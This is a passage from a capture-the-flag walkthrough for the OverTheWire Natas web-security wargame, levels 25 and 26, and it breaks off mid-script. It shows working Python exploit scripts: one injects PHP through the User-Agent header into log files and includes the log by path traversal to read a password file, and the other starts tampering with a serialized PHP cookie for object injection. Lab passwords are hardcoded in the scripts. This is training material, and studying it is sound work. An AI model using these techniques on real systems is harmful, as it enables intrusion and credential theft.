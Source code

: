 4. PHP will give a warning but the password for the next level will be revealed.

### Natas Level 25 → Level 26
**Key Takeaways**  
The source shows that the 'lang' parameter is vulnerable here, since it generates the content. It can be seen that we need to inject PHP into the User-Agent header so it is written to the site’s log files, then use the app’s file-include/LFI behavior to include the log file from `/var/www/natas/natas25/logs/` and execute that PHP to read `/etc/natas_webpass/natas26`.

**Procedure**

1. Log in using the username `natas25` and the password from Level 24.

2. Sample script (Credit: Dr4ks): https://github.com/Dr4ks/Natas_Labs_Solution

```
import requests

target = 'http://natas25.natas.labs.overthewire.org/?revelio=1'
auth = ('natas25', 'ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws')

session=requests.Session()
malhead={"User-Agent":'<?php echo file_get_contents("/etc/natas_webpass/natas26"); ?>'}

response = session.get(target, auth=auth)
response=session.post(url=target,headers=malhead,auth=auth,data={"lang" : "..././..././..././..././..././var/www/natas/natas25/logs/natas25_" +  session.cookies['PHPSESSID'] + ".log"})
print(response.text)
```
The password for the next level will be revealed in the content.

### Natas Level 26 → Level 27
**Key Takeaways**  
This level provides a drawing board feature where user inputs (x1,y1,x2,y2) are serialized into a PHP object and stored inside a cookie named drawing. The server later unserializes this cookie → classic PHP object injection vulnerability. By controlling what gets unserialized, you can trigger arbitrary code execution.

**Procedure**

1. Log in using the username `natas26` and the password from Level 25.

2. Sample script (Credits: John Hammond): https://github.com/JohnHammond/overthewire_natas_solutions/blob/master/natas26.py

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests
import re
import urllib
import base64

username = 'natas26'
password = 'cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE'

url = 'http://%s.natas.labs.overthewire.org/' % username

session = requests.Session()

response = session.get(url, auth = (username, password))
# print response.text
# print session.cookies

session.cookies['drawing'] = 'YToxOntpOjA7YTo0OntzOjI6IngxIjtzOjI6IjEwIjtzOjI6InkxIjtzOjI6IjEwIjtzOjI6IngyIjtzOjI6IjE1IjtzOjI6InkyIjtzOjI6IjE1Ijt9fQ%3D%3D'
```